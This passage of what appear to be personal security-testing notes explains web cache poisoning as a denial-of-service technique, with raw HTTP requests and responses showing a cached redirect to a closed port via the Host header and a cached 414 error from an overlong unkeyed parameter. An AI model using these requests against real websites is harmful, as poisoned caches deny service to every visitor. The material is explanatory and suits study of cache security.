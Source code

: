 In the above request <mark class="hltr-pink">CloudFlare</mark>  is being used(Identified by `CF-Cache-Status` header). So here we can see that the requesting is getting redirected to `/en`. To attempt DOS here we will change the port of `redacted.com` like `redacted.com:6666` which is a closed port.

```
GET /?doremembercachebuster HTTP/1.1   
Host: redacted.com:6666      

HTTP/1.1 301 Moved Permanently   
Location: https://redacted.com:6666/en   
CF-Cache-Status: MISS
```

Now we can see that we are being redirected to port `6666` which is a dead port. Now we will send the request once again to Cache it.

```
GET /?doremembercachebuster HTTP/1.1   
Host: redacted.com:6666      

HTTP/1.1 301 Moved Permanently   
Location: https://redacted.com:6666/en   
CF-Cache-Status: HIT
```

We can see that our response is successfully cached `CF-Cache-Status: HIT`. If anyone visits this than he/she will be redirected to a dead port which will cause <mark class="hltr-green">Denial Of Service</mark>

***

**Example of DOS (4th) via Cache Poisoning:**

This type of attack is possible when our parameter values are ==unkeyed==. 

```
GET /login?x=abc HTTP/1.1   
Host: www.lol.com   
Origin: https://dontpoisoneveryone/      

HTTP/1.1 301 Moved Permanently   
Location: /login/?x=abc
X-Cache: HIT
```

Here our parameter `?x=abc` is not included in the <mark class="hltr-purple">Cache Key</mark> and our response is being cached, we can convert it into an interesting `DOS`. we will change `?x=abc` to `?x=verylong-data.......` so that the `Request Query` becomes reach its maximum length and the one extra `/` added in `Location: /login/?x=abc` makes it one byte more larger and the request will be thus blocked.

```
GET /login?x=abc HTTP/1.1   
Host: www.lol.com   
Origin: https://dontpoisoneveryone/      

HTTP/1.1 414 Request-URI Too Large   
CF-Cache-Status: MISS
```
